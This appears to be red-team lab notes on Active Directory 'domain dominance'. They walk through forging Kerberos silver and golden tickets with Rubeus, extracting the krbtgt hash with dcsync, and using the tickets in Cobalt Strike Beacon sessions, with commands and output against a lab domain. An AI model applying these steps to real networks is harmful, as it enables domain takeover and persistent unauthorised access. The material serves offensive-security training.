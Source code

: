 # Domain Dominance

Once an attacker achieves a very high level of privilege in the domain, such as Domain or Enterprise Admin, it's very difficult for a defending organisation to recover or even consider the forest as "clean" again.  Attackers with this access can extract credential material from the domain and use it to re-obtain DA-level access at any time.  The majority of these credentials are never changed, which grants practically unlimited access.

## Silver Tickets

Forged service ticket signed using the secret keys of a computer. You can forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence. By default, computer passwords change every 30 days, at which time you must get the new secrets to continue making silver tickets. Tickets are forged, and can be generated by the attacker and imported into a Beacon session.

1: Dump Kerberos keys from Workstation 1 from a SYSTEM Beacon.

2: On the attacking machine, use Rubeus to forge a service ticket for nlamb and the CIFS service:

    PS C:\Users\Attacker> Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3c... /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

import the ticket.

    beacon> getuid
    [*] You are DEV\bfarmer (admin)
    beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
    [-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD...
    beacon> steal_token 5668
    [+] Impersonated DEV\bfarmer
    beacon> ls \\wkstn-1.dev.cyberbotic.io\c$

Useful ticket combinations:

* psexec:	HOST & CIFS
* winrm:	HOST & HTTP
* dcsync (DCs only):	LDAP

## Golden Tickets

Forged TGT signed by the domain's krbtgt account. Where a silver ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine. A golden ticket can be used to impersonate any user, to any service, on any machine in the domain, and the credentials are never changed automatically. For that reason, the krbtgt NTLM/AES hash is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently). Obtain the krbtgt hash by using dcsync from the context of a domain admin:

    beacon> dcsync dev.cyberbotic.io DEV\krbtgt

1: Forge the ticket offline using Rubeus:

    PS C:\Users\Attacker> Rubeus.exe golden /aes256:51d7f3... /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

2: Import into a logon session to use:

    beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz...
    beacon> steal_token 5060
    beacon> run klist
    beacon> ls \\dc-2.dev.cyberbotic.io\c$




